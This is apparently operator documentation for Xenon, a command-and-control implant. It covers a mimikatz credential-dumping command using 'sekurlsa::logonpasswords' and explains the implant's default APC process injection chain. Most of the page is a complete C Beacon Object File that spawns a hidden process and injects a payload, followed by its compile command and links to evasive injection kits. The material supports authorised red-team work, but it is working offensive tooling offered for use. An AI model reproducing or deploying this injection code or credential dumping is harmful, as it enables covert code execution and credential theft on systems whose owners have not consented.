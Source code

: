 +++
title = "Xenon"
chapter = true
weight = 100
+++

![logo](/agents/xenon/Xenon.png?width=600px)

## Fork & Run Commands
These commands spawn a sacrificial process to perform their actions and call `inject_shellcode` under the hood using donut-shellcode. 
They are compatible with Cobalt Strike's Process Injection Kits.

| Command                  | Usage                                                         | Description |
|--------------------------|---------------------------------------------------------------|-------------|
| `mimikatz`          | `mimikatz [args]`                                               | Execute mimikatz on the host. (e.g., mimikatz sekurlsa::logonpasswords) OPSEC Warning: Uses donut shellcode. |


## Process Injection Kit
You can read about Cobalt Strike's Process Injection Kit [here](https://www.cobaltstrike.com/blog/process-injection-update-in-cobalt-strike-4-5).
It allows the operator to modify the default behavior for Fork & Run post-ex commands. This provided the flexibility needed and allowed operators to Bring Your Own Process Injection.
Xenon's default process injection technique is the classic APC injection.
It follows a well signatured process of: `CreateProcess`, `VirtualAllocEx`, `WriteProcessMemory`, `VirtualProtectEx`, `QueueUserAPC`, and finally `ResumeThread`.

### Bring Your Own Process Injection
The command `register_process_inject_kit` allows you to enable a custom process injection technique in the running payload. Process Injection Kit's are implemented as Beacon Object Files (BOFs) and uploaded through the modal.

Currently only **PROCESS_INJECT_SPAWN** is supported which spawns a sacrificial process to perform process injection.

Here is a basic example from [Cobalt Strike](https://www.cobaltstrike.com/blog/process-injection-update-in-cobalt-strike-4-5):
```C
#include <windows.h>
#include "beacon.h"

/* is this an x64 BOF */
BOOL is_x64() {
#if defined _M_X64
   return TRUE;
#elif defined _M_IX86
   return FALSE;
#endif
}

/* See gox86 and gox64 entry points */
void go(char * args, int alen, BOOL x86) {
   STARTUPINFOA        si;
   PROCESS_INFORMATION pi;
   datap               parser;
   short               ignoreToken;
   char *              dllPtr;
   int                 dllLen;

   /* Warn about crossing to another architecture. */
   if (!is_x64() && x86 == FALSE) {
      BeaconPrintf(CALLBACK_ERROR, "Warning: inject from x86 -> x64");
   }
   if (is_x64() && x86 == TRUE) {
      BeaconPrintf(CALLBACK_ERROR, "Warning: inject from x64 -> x86");
   }

   /* Extract the arguments */
   BeaconDataParse(&parser, args, alen);
   ignoreToken = BeaconDataShort(&parser);
   dllPtr = BeaconDataExtract(&parser, &dllLen);

   /* zero out these data structures */
   __stosb((void *)&si, 0, sizeof(STARTUPINFO));
   __stosb((void *)&pi, 0, sizeof(PROCESS_INFORMATION));

   /* setup the other values in our startup info structure */
   si.dwFlags = STARTF_USESHOWWINDOW;
   si.wShowWindow = SW_HIDE;
   si.cb = sizeof(STARTUPINFO);

   /* Ready to go: spawn, inject and cleanup */
   if (!BeaconSpawnTemporaryProcess(x86, ignoreToken, &si, &pi)) {
      BeaconPrintf(CALLBACK_ERROR, "Unable to spawn %s temporary process.", x86 ? "x86" : "x64");
      return;
   }
   BeaconInjectTemporaryProcess(&pi, dllPtr, dllLen, 0, NULL, 0);
   BeaconCleanupProcess(&pi);
}

void gox86(char * args, int alen) {
   go(args, alen, TRUE);
}

void gox64(char * args, int alen) {
   go(args, alen, FALSE);
}
```
This example is essentially the same behavior as Xenon's default process injection method. It can be easily modified to change the injection behavior to something custom, and that's where the advantage is. Additionally, with `register_process_inject_kit` the injection behavior can be changed an infinite amount in the running payload without compiling a new payload.

You can compile this as a BOF with the following:
```
x86_64-w64-mingw32-gcc -o inject_spawn.x64.o -c inject_spawn.c 
```
Then register the new kit with the `register_process_inject_kit` command to the Mythic server. Now commands that call `inject_shellcode` will use your new process injection behavior!

### Examples
Here are some real-world examples of modified injection kits:
- [InjectKit](https://github.com/REDMED-X/InjectKit) - Indirect syscalls via the Tartarus' Gate method.
- [secinject](https://github.com/apokryptein/secinject) - Section Mapping Process Injection (secinject): Cobalt Strike BOF 
- [CB_process_Inject](https://github.com/vgeorgiev90/CB_process_Inject) - A simple process injection kit for cobalt strike based on syscalls 


